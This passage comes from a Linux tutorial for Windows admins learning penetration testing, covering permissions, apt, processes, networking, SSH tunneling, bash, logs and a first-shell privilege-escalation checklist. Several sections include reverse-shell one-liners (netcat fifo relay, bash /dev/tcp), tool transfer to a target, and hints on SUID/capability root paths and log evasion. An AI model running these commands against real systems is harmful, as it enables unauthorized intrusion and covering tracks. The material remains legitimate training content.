> Enumerate immediately: `find / -perm -4000 -type f 2>/dev/null` (SUID) and `-perm -2000` (SGID). Cross-reference against **GTFOBins** — many standard utilities (`find`, `vim`, `nmap`, `cp`, `bash`, `python`) spawn a root shell when SUID or allowed via `sudo`. Also check Linux **capabilities**, the finer-grained modern replacement: `getcap -r / 2>/dev/null` (a `python` with `cap_setuid=ep` is instant root).

### Accounts: `/etc/passwd`, `/etc/shadow`, UID 0

Accounts are plain text in `/etc/passwd` (seven colon fields: `name:x:UID:GID:comment:home:shell`); the `x` means the real hash lives in root-only `/etc/shadow`. Hashes are crypt-format (`$6$` SHA-512, `$y$` yescrypt), **not NTLM**.

```bash
awk -F: '$3==0{print $1}' /etc/passwd   # any UID-0 account besides root = backdoor red flag
cat /etc/passwd                         # world-readable: enumerate every account, home, shell
```

> **🪟 From Windows**
>
> `/etc/passwd` ≈ the account list (`net user` / `Get-LocalUser`); `/etc/shadow` ≈ the SAM/NTDS.dit hash store. **Trap:** `/etc/passwd` is world-readable *by design*, so any user enumerates every account. The hashes are crypt-format — feed them to `hashcat` (mode 1800 for sha512crypt) / `john`, you do **not** pass-the-hash.

### `sudo` vs `su` — reconcile this now


*[xkcd 149](https://xkcd.com/149/) by Randall Munroe, CC BY-NC 2.5.*

```bash
sudo <cmd>     # run one command as root; prompts for YOUR password; authorized by /etc/sudoers
sudo -l        # exactly what you may run as root (highest-value post-foothold command)
sudo -i        # open a root login shell
su - user      # switch user fully; prompts for the TARGET account's password
```

> **🪟 From Windows**
>
> **`sudo`** = UAC-style elevation, but you authenticate with **your own** password — authorization comes from `sudo`-group (Debian/Kali) or `wheel`-group (RHEL) membership in `/etc/sudoers`, *not* from knowing root's password. **`su`** is the true **`runas`** analog: it wants the **target** account's password. Mixing these up is the most common Windows-admin confusion. `sudo` caches your credential per-terminal for ~15 min and logs everything to `/var/log/auth.log`.

> **🎯 Pentest angle**
>
> `sudo -l` is often the whole game — a single `NOPASSWD` entry or a GTFOBins-able binary means trivial root. Also enumerate the `sudo` version for known CVEs (e.g. Baron Samedit, CVE-2021-3156), and watch non-obvious groups: `docker`, `lxd`, `disk`, `adm` frequently grant a one-hop path to root even with no SUID bug.

| Task | Windows | Linux |
|---|---|---|
| Show a file's permissions | `icacls file` / Get-Acl | `ls -l file` (`stat` for octal) |
| Your identity & groups | `whoami /all` | `id` ; `groups` |
| Change permissions | `icacls file /grant …` | `chmod 640 file` / `chmod u+x file` |
| Change owner / group | `takeown` ; `icacls /setowner` | `sudo chown user:group file` |
| Make a download runnable | (extension decides) | `chmod +x ./tool` |
| List users / groups | `net user` / `net localgroup` | `cat /etc/passwd` / `cat /etc/group` |
| Where hashes live | SAM / NTDS.dit (NTLM) | `/etc/shadow` (`$6$`,`$y$`) |
| Run one cmd as root / another user | `runas /user:X` | `sudo cmd` / `sudo -u X cmd` |
| Switch user (shell) | `runas /user:X cmd` | `su - X` |
| See what you may elevate to | (check Administrators) | `sudo -l` |
| Binary runs as owner (privesc) | auto-elevating EXE manifest | SUID: `find / -perm -4000 -type f 2>/dev/null` |

---

## 7 Software and packages apt


On Windows software comes from everywhere — an MSI, a vendor `.exe`, `winget`, `choco` — with no single authority. Debian/Kali flips that: almost everything comes from **one curated, cryptographically signed repository**, and a dependency resolver installs your tool *and every library it needs* in one command. Two layers:

- **`dpkg`** — the low-level engine that installs one `.deb` you already have (≈ `msiexec` on a single `.msi`). It does **not** fetch dependencies.
- **`apt`** — the brain on top: it knows the whole repo catalog, resolves the full dependency chain, downloads, and feeds `dpkg`. You drive `apt` 99% of the time.

```bash
sudo apt update                          # refresh the catalog ONLY — installs nothing
sudo apt full-upgrade                    # install newer versions (may REMOVE obsolete pkgs)
sudo apt update && sudo apt full-upgrade # the real "keep Kali current" one-liner
sudo apt install nmap sqlmap             # install (resolves dependencies)
sudo apt install ./tool_1.0_amd64.deb    # install a LOCAL .deb AND resolve its deps (preferred)
apt search gobuster                      # keyword search ; apt show nmap for details
sudo apt remove nmap                     # uninstall, keep config ; apt purge also wipes config
dpkg -l | grep -i ssh                    # what's installed + version (offline recon)
dpkg -S /usr/bin/nmap                    # which package owns this file
```

> **⚠️ The core trap, restated**
>
> `apt update` only refreshes the *list*. `apt upgrade`/`full-upgrade` is what actually patches. Windows' one "Check for updates" button conflates the two.

> **🪟 From Windows**
>
> `apt` ≈ `winget`/`choco` (resolves and downloads from a source); `dpkg -i` ≈ `msiexec /i` on a standalone `.msi`. **Trap:** a `.deb` carries almost no dependencies inside it, so `dpkg -i` on a downloaded `.deb` fails with "dependency problems" — like an app failing because its VC++ redistributable is missing, except nothing auto-installs it. Use `sudo apt install ./file.deb`. `apt remove` ≈ an uninstall that leaves settings in `%APPDATA%`; `apt purge` is the "also delete settings" option Windows rarely offers.

### Repositories, source builds, and where things land

The file `/etc/apt/sources.list` (plus `*.list` under `sources.list.d/`) lists your repos; Kali uses one `kali-rolling` line, and the index is **GPG-signed and verified on every `update`** — supply-chain integrity for free. Tools too new to be packaged come from GitHub:

```bash
git clone https://github.com/user/tool.git
cd tool && ./configure && make && sudo make install   # lands in /usr/local, INVISIBLE to apt
```

> **⚠️ Traps that bite mid-engagement**
>
> - **`full-upgrade` can REMOVE a tool you rely on.** Read the "will be REMOVED" list every time; pin critical versions with `sudo apt-mark hold <pkg>`. **Snapshot the VM before a big upgrade.**
> - **Do not paste Ubuntu/Debian-stable repo lines into Kali** ("FrankenDebian") — mismatched libraries will eventually brick the box.
> - **`apt-key add` is removed** — add a third-party key as a file under `/usr/share/keyrings/` and reference it with `signed-by=`. Never fix a signature error by disabling verification; a `NO_PUBKEY` error usually means Kali rotated its key — reinstall `kali-archive-keyring`.
> - **`make install` is invisible to apt** (`/usr/local`); you own its lifecycle (`sudo make uninstall`, if the author wrote that target).

> **🎯 Pentest angle**
>
> On a target, `dpkg -l` and `dpkg -S` are offline recon gold — fingerprint exact service versions to map CVEs, with no internet and no noise. `apt` actions need network and root, so they're loud and often unavailable on a locked-down host. Kali meta-packages (`kali-linux-large`, `kali-tools-web`, …) pull whole toolsets in one install.

| Task | Windows | Linux |
|---|---|---|
| Install from the central source | `winget install X` | `sudo apt install X` |
| Uninstall (keep / also delete settings) | `winget uninstall X` | `sudo apt remove X` / `apt purge X` |
| Refresh the catalog | `winget source update` | `sudo apt update` (installs nothing!) |
| Apply all updates | `winget upgrade --all` / Windows Update | `sudo apt full-upgrade` |
| Search / details | `winget search` / `show` | `apt search` / `apt show` |
| Install a downloaded package | `msiexec /i f.msi` | `sudo apt install ./f.deb` |
| List everything installed | `Get-Package` / `appwiz.cpl` | `dpkg -l` / `apt list --installed` |
| Which package owns this file | (no native tool) | `dpkg -S /path` |
| Pin a version | `winget pin add X` | `sudo apt-mark hold X` |
| Build from source | clone + Visual Studio | `git clone …; make; sudo make install` |

---

## 8 Processes and services

> **📝 Note**
>
> This chapter was written from first principles — the automated reader for it tripped a false-positive safety filter (on a chapter about `ps` and `kill`, of all things). It's standard ground.

### Processes

Every running program is a **process** with a numeric **PID**, a **parent** (PPID), an owner, and a full command line. PID 1 is `systemd` (the ancestor of everything; you can't kill it).

```bash
ps aux                 # snapshot of ALL processes (BSD syntax; columns: USER PID %CPU %MEM … COMMAND)
ps -ef                 # same idea, System-V syntax (shows PPID)
ps aux | grep sshd     # the reflexive "is X running / what's its PID"
top                    # live view: q quit, P sort by CPU, M by memory, k kill
htop                   # friendlier live view (F6 sort, F9 kill) — apt install htop
pgrep -f linpeas       # PIDs matching a pattern ; pidof nginx
```

> **🪟 From Windows**
>
> `ps aux` ≈ `tasklist` / `Get-Process` / Task Manager's Details tab — but Linux shows the **full command line** inline (tasklist truncates; you'd need `wmic`), and every process has a visible parent. `top`/`htop` ≈ Task Manager Performance+Details / Resource Monitor. There is no single "System" process equivalent; PID 1 (`systemd`) is the closest ancestor.

### Killing processes and signals

```bash
kill 1234              # polite request to terminate (SIGTERM, signal 15) — the process may clean up
kill -9 1234           # forceful, uncatchable kill (SIGKILL) — last resort
kill -HUP 1234         # "reload your config" (many daemons re-read config on SIGHUP)
killall sshd           # kill by program name
pkill -f "python3 -m http.server"   # kill by command-line pattern
kill -l                # list all signal names/numbers
```

> **🪟 From Windows**
>
> `kill 1234` ≈ `taskkill /PID 1234`; `kill -9` ≈ `taskkill /F`. **Difference:** Linux has a whole *signal* vocabulary. `SIGTERM` (15) asks nicely and can be caught/ignored; `SIGKILL` (9) is the hammer but gives the process no chance to flush files or release locks (prefer 15 first). `SIGHUP` (1) telling a daemon to reload its config has no clean Windows analog — on Windows you restart the service.

### Job control: background, foreground, and surviving disconnect

```bash
nmap -p- 10.0.0.5 &    # run in the background; prompt returns immediately ($! = its PID)
                       # Ctrl+Z suspends the current foreground job
jobs                   # list this shell's jobs  (%1, %2 …)
bg %1                  # resume job 1 in the background
fg %1                  # bring job 1 back to the foreground
nohup long-scan &      # keep running after you log out (ignores SIGHUP)
disown                 # detach a running job from the shell so a disconnect won't kill it
```

> **⛔ Closing the terminal or dropping SSH kills your jobs**
>
> When your shell exits it sends `SIGHUP` to its children, so a long scan dies on disconnect. The robust fix is a **terminal multiplexer** — see below. For a one-off, `nohup cmd & disown`.

### tmux (and screen): sessions that outlive your connection


`tmux` keeps your shells running on the box even if your SSH drops or you close the window — essential for long scans and for working on a remote host.

```bash
tmux                   # start a session        (screen: just `screen`)
#   Ctrl-b d           → detach (session keeps running)   [screen: Ctrl-a d]
tmux ls                # list sessions
tmux attach            # reattach  (tmux attach -t work for a named one)
#   Ctrl-b c  new window | Ctrl-b %  split vertical | Ctrl-b "  split horizontal
tmux new -s work       # start a named session
```

> **🪟 From Windows**
>
> There's no everyday console equivalent — the nearest feeling is an RDP session you disconnect from and later reconnect to with everything still running. `nohup`/`&`/`disown` loosely map to `start /b` and detached `Start-Process`, but survival across logoff differs.

### Services (daemons) with systemd

A long-running background service is a **daemon** (the trailing `d`: `sshd`, `cron`, `apache2`). Modern Kali manages them with **systemd** via `systemctl`:

```bash
systemctl status ssh         # is it running? recent log lines, PID, enabled-at-boot?
sudo systemctl start ssh     # start now          (stop / restart likewise)
sudo systemctl enable ssh    # start automatically at boot  (disable to undo)
sudo systemctl enable --now ssh   # enable at boot AND start now
sudo systemctl mask ssh      # hard-disable: cannot be started even manually
systemctl list-units --type=service      # all services (≈ Get-Service)
systemctl --failed           # services that failed to start
journalctl -u ssh            # that service's logs (see §12)
```

> **🪟 From Windows**
>
> `systemctl` ≈ `services.msc` + `sc.exe` + `Get-Service`/`Start-Service`/`Set-Service`. `enable` ≈ Startup Type = Automatic; `disable` ≈ Manual; `mask` ≈ Disabled-and-locked. A **daemon** is a **Windows service**. **Trap:** older boxes/containers may not run systemd — use the `service x start` wrapper or SysV `/etc/init.d/x start`; many containers have no init system at all.

> **🎯 Pentest angle**
>
> Day-one services you actually start on Kali: `ssh` (inbound access — **disabled by default** on Kali for safety, so `sudo systemctl enable --now ssh`), `postgresql` (Metasploit's DB), `apache2` (hosting payloads). After a foothold, `systemctl list-units --type=service` and `ps aux` reveal what's running as root — a service running as root that a low-priv user can influence is a classic privesc path.

> **⚠️ Trap**
>
> `kill %1` uses the shell **job** number; `kill 1234` uses the **PID** — job specs need the `%`. And `ps aux` (no dashes, BSD) vs `ps -ef` (dashes, System V) are two valid syntaxes with slightly different columns; `ps aux` is the common pentest reflex.

| Task | Windows | Linux |
|---|---|---|
| List running processes | `tasklist` / `Get-Process` | `ps aux` ; `ps -ef` |
| Live process/resource monitor | Task Manager / Resource Monitor | `top` ; `htop` |
| Find a process by name | `tasklist \| findstr x` | `pgrep -f x` ; `ps aux \| grep x` |
| Kill a process (polite / forced) | `taskkill /PID` / `/F` | `kill PID` / `kill -9 PID` |
| Kill by name / pattern | `taskkill /IM name.exe` | `killall name` ; `pkill -f pat` |
| Reload a service's config | restart the service | `kill -HUP PID` / `systemctl reload` |
| Run in background / survive logoff | `start /b` / detached | `cmd &` / `nohup cmd &` ; `tmux` |
| List / start / stop a service | `sc query` / `Start-Service` | `systemctl list-units --type=service` / `start` |
| Set service to auto-start | Startup Type = Automatic | `systemctl enable` |
| A background service | a Windows service | a daemon (`sshd`, `cron`) |

---

## 9 Networking

Windows networking is GUI-first (`ncpa.cpl`, Windows Firewall) backed by `netsh`/PowerShell, and almost everything is persistent. Linux is command-line-first, and **most state you set live evaporates on reboot** unless written to a config file. Two tool generations coexist: legacy **net-tools** (`ifconfig`, `route`, `netstat`, `iwconfig` — deprecated, often absent) and the modern **iproute2** suite (`ip`, `ss`, `iw`/`nmcli` — what actually ships). Learn the modern tools; recognize the old ones because every book and half your targets still use them.

### Addresses, routes, DNS

```bash
ip a                       # all interfaces + addresses        ≈ ipconfig /all
ip -br -c a                # brief, colorized one-line-per-iface
ip r                       # routing table ("default via X" = gateway)  ≈ route print
ip neigh                   # ARP/neighbor table                ≈ arp -a
sudo ip addr add 192.168.1.50/24 dev eth0   # add an IP (CIDR, not a dotted netmask!)
sudo dhclient eth0         # request a DHCP lease              ≈ ipconfig /renew
dig +short example.com     # DNS lookup (dig is what you wish nslookup was)
dig -x 1.2.3.4             # reverse lookup
dig AXFR @ns1.example.com example.com   # attempt a zone transfer (recon)
cat /etc/hosts             # static name→IP overrides  (= …\drivers\etc\hosts)
cat /etc/resolv.conf       # configured nameservers
```

> **⚠️ Traps**
>
> - **Live changes are not persistent.** An IP, route, MAC, or firewall rule set by hand is gone on reboot. Persistence means config files (`/etc/network/interfaces`, NetworkManager, netplan) — the opposite of Windows, where GUI/`netsh` changes stick.
> - **`ip addr` uses CIDR** (`/24`), not the dotted `255.255.255.0` mask that `ifconfig` and Windows use.
> - **`/etc/resolv.conf` is often auto-generated** by `systemd-resolved` and may just point at the stub `127.0.0.53`; hand-edits vanish. Check the real upstream with `resolvectl status`.

> **🎯 Pentest angle**
>
> First reflex on any box or pivot: `ip -br a` to learn your addresses and reachable subnets — **find your own attack IP (watch for `tun0` on a VPN) before setting up a reverse shell.** On a dual-homed host, `ip r` reveals the internal network; `sysctl -w net.ipv4.ip_forward=1` plus an iptables NAT rule turns it into a pivot. `dig AXFR` against a misconfigured nameserver can dump an entire domain.

### Connections and listening ports

```bash
sudo ss -tulpn             # listening TCP+UDP, numeric, with owning process  ≈ netstat -ano + Task Manager
ss -tp                     # established TCP connections with process
lsof -i :22                # who is using port 22
```

> **🪟 From Windows**
>
> `ss -tulpn` ≈ `netstat -ano` but with the process name already resolved inline (no PID-to-Task-Manager lookup). `-p` needs root to see other users' sockets. Plain `netstat` may be missing on Kali — reach for `ss`.

### Host firewalling

```bash
sudo ufw status verbose    # Uncomplicated Firewall: current policy + rules
sudo ufw allow 22/tcp      # allow SSH  —  ALLOW 22 BEFORE enabling a default-deny!
sudo ufw enable
sudo iptables -L -n -v     # the low-level engine (first-match-wins, order matters)
sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
```

> **⛔ Don't lock yourself out**
>
> Setting a default-deny policy (`ufw default deny incoming` or `iptables -P INPUT DROP`) while connected over SSH **cuts your own session** unless you allowed port 22 *first*. On a remote box that can mean needing console/VM access to recover.

> **⚠️ Traps**
>
> UFW is **off by default on Kali** — a stock box often has no host firewall at all (not the Windows "on by default" posture). `iptables` rules are **not persistent** (a reboot or `iptables -F` wipes them) — use `iptables-save`/`iptables-persistent`.

### Spoofing MAC/IP

```bash
sudo ip link set dev eth0 down
sudo macchanger -r eth0           # random MAC (-m XX:.. specific, -s show, -p restore)
sudo ip link set dev eth0 up
```

> **⚠️ Trap**
>
> NetworkManager often **reverts** a manual MAC/IP change when it re-manages the interface. Configure it inside NetworkManager (`cloned-mac-address`) or detach the interface from NM while you work. Record the original first (`macchanger -s`).

| Task | Windows | Linux |
|---|---|---|
| Interfaces + addresses | `ipconfig /all` | `ip a` (legacy `ifconfig`) |
| Routing table / ARP | `route print` / `arp -a` | `ip r` / `ip neigh` |
| Set a static IP / renew DHCP | `netsh …` / `ipconfig /renew` | `sudo ip addr add …/24 dev eth0` / `dhclient` |
| DNS lookup / reverse | `nslookup` | `dig +short` / `dig -x` |
| Static hosts file | `…\drivers\etc\hosts` | `/etc/hosts` |
| Listening ports + process | `netstat -ano` (+ Task Mgr) | `sudo ss -tulpn` |
| Host firewall rule | `New-NetFirewallRule` | `sudo ufw allow 22/tcp` |
| Enable IP forwarding | Routing & Remote Access role | `sysctl -w net.ipv4.ip_forward=1` |
| Change the MAC | NIC Advanced / registry | `sudo macchanger -r eth0` |

---

## 10 Remote access and file transfer

### SSH — your RDP/WinRM/PSRemoting

SSH (OpenSSH) is the single most important remote-access tool on Linux: an encrypted remote shell plus file transfer and tunneling, all over TCP 22. It's text-first, not a graphical desktop.

```bash
ssh user@10.0.0.10            # connect (-p 2222 for a non-default port)
ssh user@host 'id; cat /etc/passwd'   # run one command remotely, no interactive shell
ssh-keygen -t ed25519         # generate a modern keypair (~/.ssh/id_ed25519[.pub])
ssh-copy-id user@host         # install your public key into the server's authorized_keys
ssh -i ./key user@host        # use a specific key — chmod 600 the key first!
ssh -v user@host              # verbose: debug auth/key failures
```

> **⚠️ Two guaranteed walls**
>
> - **Key permissions:** SSH refuses a private key that is group/world-readable — `chmod 600 key` (and `~/.ssh` should be `700`). Windows doesn't care about Unix perms, so this is new.
> - **Host-key checking is strict:** a changed/unknown host key throws a MITM warning and **blocks** the connection — there's no "click yes". Clear a stale entry with `ssh-keygen -R host`.

### Tunneling and pivoting

```bash
ssh -L 8080:10.0.0.5:80 user@pivot   # LOCAL: your localhost:8080 → (via pivot) → 10.0.0.5:80
ssh -R 8080:localhost:443 user@public# REMOTE: public:8080 → back to your :443 (callback)
ssh -D 1080 user@pivot               # DYNAMIC: a local SOCKS proxy into the pivot's network
proxychains nmap -sT -Pn -p445 10.0.0.0/24   # push whole toolsets through the -D proxy
```

```
-L (local forward):   [you] --listen--> | SSH tunnel | --> target:port   (reach IN to a service)
-R (remote forward):  server:port --> | SSH tunnel | --> [you]           (callback OUT through a firewall)
-D (dynamic/SOCKS):   [you]:1080 --> | SSH tunnel | --> anywhere in the far network
```

> **🪟 From Windows**
>
> The native analog is `netsh interface portproxy` or PuTTY/`plink` — but portproxy is unencrypted, clunky, and has nothing like `-D` SOCKS. **Trap:** `-L` forwards *inbound-to-you*, `-R` forwards *back-out-from-the-server*; mixing them up is the #1 tunneling error. Picture the data flow, not which box you typed `ssh` on.

### File transfer

```bash
scp ./loot.tar user@host:/tmp/        # push      (scp uses CAPITAL -P for the port; ssh uses -p!)
scp user@host:/etc/passwd ./          # pull
rsync -avz -e ssh ./data user@host:/opt/   # efficient delta sync for large/repeated copies
# When you have no creds on the box, serve from Kali and pull from the target:
python3 -m http.server 8000           # on Kali, in the folder to share
wget http://10.10.14.5:8000/linpeas.sh   # on the target  (or: curl -O http://…)
# Raw bytes with netcat (receiver listens FIRST):
nc -lvnp 4444 > out.bin               # on Kali
nc -N 10.10.14.5 4444 < file          # on the target
```

> **🪟 From Windows**
>
> `scp`/`sftp` replace `copy \\host\share\file` over SMB; `rsync` ≈ `robocopy` over SSH. The `python3 -m http.server` + `wget` pattern is the Linux `certutil -urlcache -f http://… out.exe` / `Invoke-WebRequest`. **Trap:** no drive letters or UNC — the remote path is a colon string `user@host:/tmp/file`, and a missing/extra colon is the usual mistake. On a target, check whether it has `curl` *or* `wget`, and `python3` *or* `python`, before committing.

### netcat — the ad-hoc TCP/UDP multitool

```bash
nc -lvnp 4444                  # LISTEN (verbose, no-DNS) — the standard reverse-shell catcher
nc 10.0.0.5 80                 # connect and type a request to grab a banner
nc -zv 10.0.0.5 20-25          # quick zero-I/O port scan
# The classic reverse shells (modern nc has NO -e flag):
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f   # fifo relay
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1                                        # pure-bash, no nc
```

> **⚠️ Trap**
>
> The default OpenBSD `nc` and Nmap's `ncat` **dropped the `-e` "execute a program" flag**, so copy-pasted `nc -e /bin/sh` one-liners from old references simply fail. Use the `mkfifo` relay, `ncat --exec`, or the `bash /dev/tcp` shell above.

| Task | Windows | Linux |
|---|---|---|
| Remote shell / admin | `mstsc` (RDP) / `Enter-PSSession` | `ssh user@host` |
| Generate an auth keypair | `ssh-keygen` / New-SelfSignedCertificate | `ssh-keygen -t ed25519` |
| Copy a file to a remote host | `copy \\host\share` / `robocopy` | `scp file user@host:/tmp/` |
| Download a file to the host | `certutil -urlcache -f URL out` / `iwr` | `wget URL` / `curl -O URL` |
| Serve a file to pull from a victim | IIS / SMB share | `python3 -m http.server 8000` |
| Local port forward / SOCKS pivot | `netsh … portproxy` / `plink -D` | `ssh -L …` / `ssh -D 1080` + proxychains |
| Ad-hoc TCP connect/listen | `Test-NetConnection` / `nc.exe` | `nc host port` / `nc -lvnp 4444` |

---

## 11 A bash scripting primer

In Linux the interactive prompt and a script are the same language — a script is just the commands you'd type, in a file, run top to bottom, with no compile step and no execution-policy/signing/AMSI gate. The only gate is the execute bit.

```bash
#!/bin/bash                       # line 1: the shebang — which interpreter runs this
target="10.0.0.5"                 # assignment, NO spaces around =
echo "Scanning $target"           # "double" expands $vars; 'single' is literal

# arguments: $1 $2 … ($0 = script name, "$@" = all args, $# = count)
read -p "Target: " ip             # prompt for input (read -s hides it, for passwords)

# conditionals: [ is the `test` command, so the spaces inside are MANDATORY
if [ "$#" -eq 0 ]; then
    echo "usage: $0 <host>"; exit 1
fi
if [[ -f /etc/passwd ]]; then echo "exists"; fi   # [[ ]] is bash's safer modern form

# loops — the pentester's bread and butter
for ip in 10.0.0.{1..20}; do                      # brace expansion, a native sweep
    ping -c1 -W1 "$ip" &>/dev/null && echo "$ip up"
done
while read -r line; do echo "host: $line"; done < hosts.txt   # per-line iteration

echo "exit code of last command: $?"              # 0 = success
```

> **🪟 From Windows**
>
> Like a `.ps1`/`.bat`, but there's no `Set-ExecutionPolicy`, no signing, no AMSI — Linux never refuses a script over org policy. `$1`,`"$@"` ≈ `%1`,`%*`/`$args`; `read` ≈ `Read-Host`/`set /p`; `$?` is **numeric** like `%ERRORLEVEL%` (0 = success), **not** a boolean like PowerShell's `$?` (its numeric analog is `$LASTEXITCODE`). **Trap:** bash `for` iterates over *text tokens split on whitespace*, so `for f in $(ls)` breaks on filenames with spaces — use a glob (`for f in *.txt`) or `while read -r`.

> **⚠️ Trap**
>
> `[ $a -eq $b ]` *requires* the spaces (`[` is literally a command). Numbers compare with `-eq -ne -lt -gt`; **strings compare with `=`**. Prefer `[[ … ]]`, which tolerates empty variables and supports `&&`/`||` and regex `=~`.

### The environment and making it stick

```bash
echo $PATH | tr ':' '\n'          # the command search list, one dir per line (: separated, not ;)
export TARGET=10.0.0.5            # promote a var to the ENVIRONMENT (inherited by child processes)
printenv                          # list environment vars (shell-only vars need `set`)
alias ll='ls -la'                 # a shortcut (can bake in flags, unlike a PowerShell alias)
```

> **⚠️ `export` is session-only**
>
> It propagates to child processes but is **not** saved to disk and does **not** survive a new login (unlike Windows `setx`). For persistence, add the `export`/`alias` line to **`~/.bashrc`** (the analog of PowerShell's `$PROFILE`), then `source ~/.bashrc` to apply it to the current shell. *(Linux Basics for Hackers wrongly calls `export` "permanent"; it isn't.)* Login shells (SSH/console) read `~/.bash_profile`/`~/.profile` while desktop terminals read `~/.bashrc` — an export that works locally can be missing over SSH.

| Task | Windows | Linux |
|---|---|---|
| Run a script from the current dir | `.\script.ps1` | `./script.sh` (after `chmod +x`) |
| Declare the interpreter | file extension + association | `#!/bin/bash` (shebang) |
| Define / use a variable | `$x = 5` / `$x` | `x=5` (no spaces) / `$x` |
| Set env var / persist it | `$env:X='v'` / `setx X v` | `export X=v` / add to `~/.bashrc` |
| Script args / prompt input | `$args` / `Read-Host` | `$1 "$@" $#` / `read -p` |
| Exit code of last command | `$LASTEXITCODE` | `$?` (0 = success) |
| if / for / while | `if()`/`foreach`/`while` | `if [ ]; then … fi` / `for x in …; do … done` |
| Startup profile / alias | `$PROFILE` / `Set-Alias` | `~/.bashrc` / `alias ll='ls -la'` |

---

## 12 Logs scheduling and the kernel

On Windows these are four GUI apps over sealed binary stores (Event Viewer, Task Scheduler, Device Manager, Disk Management). Linux exposes all four as **plain files and small commands**: logs are text (plus one binary journal), scheduled jobs are text lines, the kernel loads drivers as versioned files, and storage is invisible until mounted onto the tree.

### Logs

```bash
tail -f /var/log/auth.log     # LIVE auth/sudo/SSH (Debian/Kali; RHEL uses secure)
grep sudo /var/log/auth.log   # logs are plain TEXT — just grep them
journalctl -u ssh.service     # the systemd journal, filtered to one service
journalctl -k -b              # kernel messages, this boot
who; w; last; lastb           # current sessions / login history / failed logins (binary files)
```

> **🪟 From Windows**
>
> `/var/log/*` ≈ Event Viewer `.evtx`, but **flat text you `tail`/`grep`**, not one indexed store with event IDs — there's no Application/Security/System split; files are named by the facility that wrote them. `journalctl` is the binary-journal half (query by field). `last`/`w` ≈ `quser` + Security events 4624/4625. **Trap:** log file names differ by distro (`auth.log`/`syslog` on Debian/Kali, `secure`/`messages` on RHEL), and `journalctl -u` wants the unit name (`ssh.service` on Debian, `sshd.service` on RHEL).

> **🎯 Pentest angle**
>
> Two loggers run at once (`rsyslog` → text, `systemd-journald` → binary, often persisted under `/var/log/journal`) — silencing one doesn't stop the other. Check `/etc/rsyslog.d/` for `@@logserver:514` remote forwarding before assuming local cleanup helps: if events stream to a SIEM, clearing local files accomplishes nothing. And `shred` is **unreliable** on journaling/CoW filesystems (ext4, btrfs, XFS) and SSDs — its own man page says so.

### Scheduling

```bash
crontab -l                    # list the current user's jobs
crontab -e                    # edit them (crontab -r deletes with NO confirmation — careful)
systemctl list-timers --all   # systemd timers — the modern scheduler you must also check
```

A cron line is five time fields then a command:

```
┌ minute (0-59)
│ ┌ hour (0-23)
│ │ ┌ day-of-month (1-31)
│ │ │ ┌ month (1-12)
│ │ │ │ ┌ day-of-week (0-7; 0 and 7 both = Sunday)
│ │ │ │ │
*/5 * * * *  /opt/collect.sh        # every 5 minutes
```

> **🪟 From Windows**
>
> cron/timers ≈ Task Scheduler (`schtasks`). **Traps:** the field order is **minute first**; a per-user `crontab` has **5** time fields but `/etc/crontab` and `/etc/cron.d/` insert a **6th user field** (paste a 5-field line there and it silently misparses); plain cron does **not** run jobs missed while the box was off (no catch-up — use a systemd timer with `Persistent=true` or `anacron`); and cron jobs run under `/bin/sh` with a **minimal PATH and no profile**, so a script that works interactively can fail under cron — always use absolute paths.

> **🎯 Pentest angle**
>
> Cron and timers are top persistence/privesc mechanisms. Enumerate `crontab -l`, `/etc/crontab`, `/etc/cron.d/`, `/var/spool/cron/crontabs/`, **and** `systemctl list-timers` (timer persistence is easy to miss if you only check cron). A world-writable script referenced by root's crontab is a direct path to root.

### The kernel, modules, and storage

```bash
uname -r                      # running kernel release — the first thing for local privesc
lsmod                         # loaded kernel modules (drivers)   ≈ driverquery
sudo sysctl -w net.ipv4.ip_forward=1   # runtime kernel tunable (lost on reboot)
lsblk                         # disks/partitions as a tree with mount points  ≈ Disk Management
sudo mount /dev/sdb1 /mnt     # graft a filesystem onto the tree (no drive letters)
df -h                         # free space per filesystem
```

> **🪟 From Windows**
>
> `uname`/`/proc/version` ≈ `winver`/`systeminfo`; the kernel ≈ `ntoskrnl.exe`; `lsmod`/`modprobe` ≈ `driverquery`/`pnputil`; `sysctl` ≈ HKLM tunables + `netsh`. **Traps:** a kernel update needs a **reboot** and multiple kernels coexist (chosen at the GRUB menu), so `uname -r` can show an *older* running kernel than the newest installed package — a common privesc win. There are **no drive letters**: a filesystem is invisible until mounted, and mounting onto a **non-empty** directory *hides* its contents until unmount. Unlike Windows, Linux will `insmod` an unsigned module unless Secure Boot + lockdown are on — the classic kernel-rootkit vector.

| Task | Windows | Linux |
|---|---|---|
| Browse / follow logs | Event Viewer / `Get-Content -Wait` | `less /var/log/syslog` / `tail -f`; `journalctl -ef` |
| Filter logs by service | `Get-WinEvent -FilterHashtable` | `journalctl -u ssh.service` |
| Login history / who's on | `quser` / 4624-4625 | `who`; `w`; `last`; `lastb` |
| List / create scheduled jobs | `schtasks` | `crontab -l` / `crontab -e`; `systemctl list-timers` |
| OS / kernel version | `winver`; `systeminfo` | `uname -a`; `cat /etc/os-release` |
| List drivers; set a tunable | `driverquery`; registry | `lsmod`; `sysctl -w key=val` |
| List disks; mount; free space | Disk Management; auto-letter | `lsblk`; `mount /dev/sdb1 /mnt`; `df -h` |

---

## 13 Capstone the first five minutes on a shell

When you catch a shell as a low-privilege user (often `www-data` from a web exploit), run a fixed sweep to learn who you are and where the privilege-escalation paths are. This collates the `Pentest angle` notes scattered above into one reflex.

> **💡 Step 0 — upgrade a dumb shell to a real TTY, FIRST**
>
> A reverse/bind shell caught over netcat (or Meterpreter's `shell`) is a non-interactive pipe, **not a terminal**: no tab-completion, arrow keys print garbage, `Ctrl-C` kills the whole shell, and `su`/`sudo`/`ssh` hang or error with "no tty present". Upgrade *before* trying to escalate:
> ```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'   # spawn a pseudo-terminal
> #  → press Ctrl-Z to background it, then ON KALI:
> stty raw -echo; fg
> #  → press Enter, then in the upgraded shell:
> export TERM=xterm-256color
> #  fallback if no python:  script -qc /bin/bash /dev/null
> ```

```bash
# --- who am I, and where ---
id; whoami; hostname
uname -a; cat /etc/os-release          # kernel + distro → match kernel/CVE exploits

# --- the obvious privesc paths ---
sudo -l                                # what can I run as root, maybe passwordless? (often the whole game)
find / -perm -4000 -type f 2>/dev/null # SUID binaries (root-owned = gold; cross-ref GTFOBins)
find / -perm -2000 -type f 2>/dev/null # SGID binaries
getcap -r / 2>/dev/null                # capabilities (a python with cap_setuid = instant root)

# --- the lay of the land ---
